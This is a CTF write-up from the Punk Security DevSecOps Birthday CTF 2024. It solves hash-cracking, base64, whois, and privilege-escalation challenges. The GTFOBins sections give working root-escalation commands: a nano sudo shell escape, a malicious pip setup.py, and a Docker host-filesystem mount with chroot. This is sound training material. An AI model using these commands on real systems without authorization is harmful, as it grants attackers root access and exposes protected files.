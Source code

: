 ```yaml
---
title: Punk Security DevSecOps birthday CTF 2024 Writeup
layout: post
date: 2024-05-05
permalink: punk-security-devsecopsctf-2024-writeup
category: ctf writeups
description: few ctf challenges from punk security DevSecOps Birthday CTF.
author: Inv1nc
---
```


![](assets/images/2024/24050501.png)

Hello Friend,  

I participated in a 12-hour CTF focused on DevSecOps, hosted by Punk Security from May 04-05. I managed to solve a few challenges. 

Hope you find it interesting!  

---

### Password Cracking - 4

![](assets/images/2024/24050502.png)

**Task:** Crack the hash.

**Explanation:** The hash `cb5e8a23ec9e46a858372247af29a414` is an MD5 hash. We can use hashcat, a tool for password recovery, with a wordlist (`rockyou.txt`) to crack it.

```shell
hashcat -m 0 "cb5e8a23ec9e46a858372247af29a414" rockyou.txt
```

**Flag:** collision

### Password Cracking - 3

![](assets/images/2024/24050503.png)

**Task:** Decode the string.

**Explanation:** The string `cHVua197VGhleV9hcmVfbm90X2FsbF90aGlzX2Vhc3l9` is base64 encoded. We can use the `base64` command to decode it.

```shell
echo -n "cHVua197VGhleV9hcmVfbm90X2FsbF90aGlzX2Vhc3l9" | base64 -d
```

**Flag:** punk_{They_are_not_all_this_easy}


### IntoTheWebs

![](assets/images/2024/24050504.png)

**Task:** Find the registration date of a domain.

**Explanation:** We need to find when the domain `punksecurity.co.uk` was registered. We can use the `whois` command and filter for the registration date.

```shell
whois punksecurity.co.uk | grep Registered\ on
```

**Flag:** punk_{12022021}

### GTFOBINS - 1

**Task:** Access a misconfigured system to retrieve the flag.

**Explanation:** We have sudo access with `nano` which allows us to execute commands as root. We can abuse this to read the flag file.

I used sudo -l and found that the following command has NOPasswd:

```shell
sudo /usr/bin/nano /root/mail
```

After opening nano, press CTRL + R to read and CTRL + X to execute commands.  

```shell
reset; sh 1>&0 2>&0
cat /root/FLAG
```

**Flag:** punk_{XK9F6BPAMJZLG1ML}

### GTFOBINS - 3

**Task:** Leverage a misconfigured system to get the flag.

![](assets/images/2024/24050505.png)

**Explanation:** We can abuse `pip` to execute Python code that reads the flag file.

![](assets/images/2024/24050506.png)

```shell
TF=$(mktemp -d)
echo 'raise Exception(open("/root/FLAG").read())' > $TF/setup.py
sudo pip install $TF
```

**Flag:** punk_{0UTXT5AMK9D3DO5T}

## Docker privesc

**Task:** Access the root filesystem of a Docker container.

**Explanation:** We list Docker images and then run a container, mounting the root filesystem. This allows us to access the root filesystem of the host system.

```shell
docker images
docker run -v /:/mnt --rm -it IMAGE_ID chroot /mnt sh
```

**Flag:** punk_{US8UMG01Y8DR0K2G}

---

External Resources

- [hashcat](https://hashcat.net/hashcat/)
- [GTFOBins](https://gtfobins.github.io/)

--- 

Thanks for reading!